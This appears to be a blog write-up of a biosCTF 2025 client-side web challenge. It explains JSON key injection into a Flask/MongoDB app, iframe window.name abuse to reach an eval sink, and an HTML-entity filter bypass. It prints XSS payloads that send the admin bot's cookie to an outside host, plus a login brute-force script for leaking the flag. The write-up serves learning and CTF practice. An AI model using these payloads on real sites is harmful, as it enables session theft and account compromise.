

# introduction 

over the weekend I participated with my team in the 2025 biosCTF competition. 
Overall it was a tough CTF competition but we enjoyed the challs and we were happy to be able to solve a couple challenges. 


# Flask app

In this post I will go over how we solved a fairly tough client-side web challenge involving exploiting a simple flask application with a mongodb database by abusing iframes , filter bypassing ,window referencing and unsafe rendering issues to exfiltrate the flag from the admin bots cookie.


## Enumeration 




upon opening the application, a user can create and account by the /register endpoint and login via the /login endpoint. 
After logging in we end up on a simple /update_bio page, where a user can type text that will update their bio. I tried the usual html/template injection but notice there is some sanitization/filtering. After that I decide to have a look the source code provided 


## Source code analysis

After looking briefly at the source code I discovered more endpoints and more functionality of the application. 
This is the important things to note of the application :

- in the index.js file for a user the *window.name* object is set to not admin `window.name="notadmin"` something we have to take note of later on
- mongodb database is used 
- username and bio is checked for only allows alphanumeric characters
- theres a user.html file that can only be viewed by the admin bot 
- report endpoint where we can send a username for the admin bot to view ``users?name={name}``
- render endpoint renders return values of `username` and `bio` where unsafe hmtl rendering is set in the bio in the html file : ``<p id="bio">{{ request.args.get('bio') |safe }}</p>``  this could get us xss or html injection
- strict CSP is set :``default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self'``
- admin bot only views supplied usernames from the report endpoint

The 2 most interesting parts of the program is the user.js file 

```javascript
document.addEventListener("DOMContentLoaded", async function() {

    const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));

    // get url serach params

    const urlParams = new URLSearchParams(window.location.search);

    const name = urlParams.get('name');

    if (name) {

        fetch(`/api/users?name=${name}`)

            .then(response => response.json())

            .then(data => {

                frames = data.map(user => {

                    return `

                        <iframe src="/render?${Object.keys(user).map((i)=> encodeURI(i+"="+user[i]).replaceAll('&','')).join("&")}"></iframe>

                    `;

                }).join("");

                document.getElementById("frames").innerHTML = frames;

            })

            .catch(error => {

               console.log("Error fetching user data:", error);

            })

    }

    if(window.name=="admin"){

            js = urlParams.get('js');

            if(js){

                eval(js);

            }

    }

})
```

In the user.js file the code is pretty much initianated by the `/report` endpoint when the admin bot looks up a username reported `/users?name=...` .
It reads the name part of `/users?name=...` then fetches user JSON data. For each user object in the response , it loops through all the keys in the user object `bio` `username`. Then builds a key:value string like `bio=hello` and `username=soutag` and uses `encodeURI `method to remove certain special characters. 
It also removes `&` charaters with `.replaceAll('&','')`. forms a query param by joining all the key value pairs with & . Then creates an **`<Iframe>`** that has a `src` of the` /render?` endpoint.  The result : `<iframe src="/render?bio=hello&username=alice"></iframe>` .  Renders the Iframe to the users.html page.

The last part of the code has an interesting XSS sink. 
If the main window object name has the name **Admin** and a query param like this `?js=PAYLOAD ` It will get evaled and executed the payload. The CSP also allows `unsafe-eval` 


##  Html injection by arbitrary JSON key injection

 In the /update_bio endpoint there isn't a check or restriction for extra JSON keys if injected: 
```python
 bio = data.get("bio", "")`  

    `if not bio or any(`

        `char not in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 "`

        `for char in bio`

    `):`

        `return jsonify({"error": "Invalid bio"}), 400`
```

Also it implements arbitrary field storage : 
```python
result = users_collection.update_one({"username": username}, {"$set": data})
```

This means that `$set:data` will update the users data with all fields in the JSON including any extra keys 

The alphanumeric check only checks data in` bio` . So If we send a payload like this with a `&` :
  `{`
`"bio": "hello",`
  `"&bio": "<h1>helloo hi browserr</h1>"`
`}`  to /update_bio we should be able to succesfully inject Html that will render when a users bio is viewed . I had to test this locally since only admins can view users bio : 


Great! Now we have html injection and can try to achive XSS. 
Also it doesnt matter what order you send the JSON payload in. The render endpoint will always take the injected `&bio=payload` over the `bio`
because apparently [MongoDB sort keys lexicographically](https://www.mongodb.com/community/forums/t/mongodb-alphabetical-sorting/179702)


## Main objective

It seemed like the main objective to getting the admin bots cookie was to figure out how to set the main window to `window.name = "admin"`
and to allow our `?js=payload `to reach the` eval()` sink and get xss.
My first idea was to try [Dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering) since we have html injection however it wont be possible because it isnt used in the Dom so it isn't a property of the Dom and can only be changed with js execution. 
Now we sitting in a weird conundrum in order to get xss we have to get the window.name to "admin" but it can only be changed with js execution itself ???!!! 


## Unintended solution
 After struggling for hours we eventually came up with a fairly complicated solution. We figured out how to get xss but not have it bypass the Content-Security-Policy attribute : `script-src 'self'` . 

this is the url decoded version of the payload for readability :

```<iframe name="admin"`
        `src="/render?bio=<script src="/static/users.js"></script>&js=alert()>`
`</iframe>```


At this point we were stuck on fully bypassing the CSP until my team mate had an interesting idea of brute forcing the flag.
since we only figured out how to execute JavaScript in the sites origin we can : 
- inject xss payload that triggers in the admins browser. The payload  will register users with a known password and with a username for each character in flag and position with ASCII since only alphanumeric characters are allowed (ex., if a flags character is in position `N=2`with the `b`  char, which is ASCII 98, it registers a user with username `"CC98"`) .Now we know at what position a certain character is in the flag. We can send a payload like this:  ```
```javsvcript 
fetch('/register', {

  method: 'POST',

  headers: { 'Content-Type': 'application/json' },

  body: JSON.stringify({

   username: c".repeat(N) + document.cookie.charCodeAt(N).toString(),

    password: 'knowpassword'

  })

});
```


- since we know the password we can now blindly brute force the flag by trying to brute force logging in and after every successful login attempt we can construct the flag. At first I thought this would crash the server but its very trivial since the attempts needed isnt much (about =<3000 attempts ). We can do this easily with a python script :  
```python
#url = "inserturl" 
import string import _thread flag = ['']*50 def req(i,c): global flag import requests resp = requests.post(url+"/login", json={"username": ("c"*i)+str(ord(c)), "password":"pass"}) if resp.status_code == 200: flag[i] = c import time count = 0 for i in range(80): for c in string.printable: _thread.start_new_thread(req, (i,c)) count += 1 if count %20 == 0: time.sleep(1) print(''.join(flag)) if flag[i] != '': break if "}" in flag: break print(flag) print(''.join(flag))

```

- after running the python script in the terminal we should see the flag form :) 
 ``` bash
 └─$ python3 brute.py
f
f
fl
fla
flag
flag
flag
flag
flag
flag=
flag=b
flag=bi
flag=bi0
flag=bi0
flag=bi0s
flag=bi0sc
```

Flag: `bi0sCTF{i_d0n't_f1nd_bugs!!_bug5_f1nd_m3:)}`

After the ctf was over i released I could of used the JS injection to change the top level navigation to send a fetch request to our server with the cookie in it like this :` ?js=top location= "oursite.com?c=(document.cookie)"`. Someone else also used [webrtc to bypass the csp ](https://www.youtube.com/watch?v=sAmJ3Ypbosw) which was really clever!


# Revenge challenge intended solution

Usually if a challenge gets solves that were unintended by the authors there will be a patched "revenge" challenge released. In this case we couldn't solve it as we couldnt figure a way around the patch in time.  

## #1 The patch 

this was the patch :
``` javascript
.replaceAll('&','%26')).join("&")}"
```

It was a simple patch that pretty much stop us from injection json keys with `&` . It essentially URL encodes the & for our injection not to work. 
we couldn't figure a way around this but the solution was to use [Html entities](https://www.w3schools.com/html/html_entities.asp)  : `{"bio":"a", "amp;bio=":` when this gets processed it will have a `& `prepended and html entities will convert this to & allowing us to override bio via the key and our payload should work again. 
The reason why this works as well is because the [encodeURI: method ](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURI)escapes all characters besides : `A–Z a–z 0–9 - _ . ! ~ * ' ( ) ; / ? : @ & = + $ , #`

## #2  XSS with Iframe redirect 

intended XSS payload :
``` javascript
{ "bio":"a", "amp;bio":"<iframe name=admin src=about:srcdoc? srcdoc=\"<meta http-equiv=refresh content='1; url=about:srcdoc?js=top.location=`https://oursite?`.concat(document.cookie);'><script src=/static/users.js?js=alert();></script>\">" }

```

This payload uses a Html attribute  `<meta http-equiv="refresh"` this will refresh and redirect the page to a Iframes srcdoc which will then set the top level navigation to our site with the admin bots cookie in the query param.
Something I wasn't aware of was that you can redirect to about:srcdoc  in a Iframe. this is only possible in chromium bases browsers 


### Things I learnt 
- iframes thats same origin can affect parent page
- you can redirect to srcdoc in a iframe in chrome
- Hmtl entities can bypass filters and regex

